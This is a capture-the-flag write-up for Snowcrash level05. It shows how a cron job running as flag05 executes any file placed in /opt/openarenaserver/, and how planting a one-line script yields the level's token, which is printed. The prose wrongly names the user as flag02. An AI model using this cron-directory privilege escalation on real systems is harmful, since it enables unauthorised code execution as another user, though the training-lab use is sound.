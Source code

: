 # <center>Snowcrash level05</center>

# Explanations

<br/>

## On VM:
> 
>> You have new mail.

> $ cat /var/mail/$USER
>> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
- This mail is a crontab line, the user flag02 executes every 2 minutes the script /usr/sbin/openarenaserver.
> $ cat /usr/sbin/openarenaserver
>>#!/bin/sh<br/>
>>for i in /opt/openarenaserver/* ; do<br/>
>>	(ulimit -t 5; bash -x "$i")<br/>
>>	rm -f "$i"<br/>
>>done<br/>
- This script executes all scripts contained in the /opt/openarenaserver/ folder and then deletes them.
> $ echo 'getflag > /tmp/result' > /opt/openarenaserver/script<br/>

> $ ls -l /opt/openarenaserver/script
>> -rw-rw-r--+ 1 level05 level05 103 Feb  6 21:21 script

> $ ls -l /opt/openarenaserver/script
>> ls: cannot access /opt/openarenaserver/script: No such file or directory

> $ cat /tmp/result
>> Check flag.Here is your token : viuaaale9huek52boumoomioc
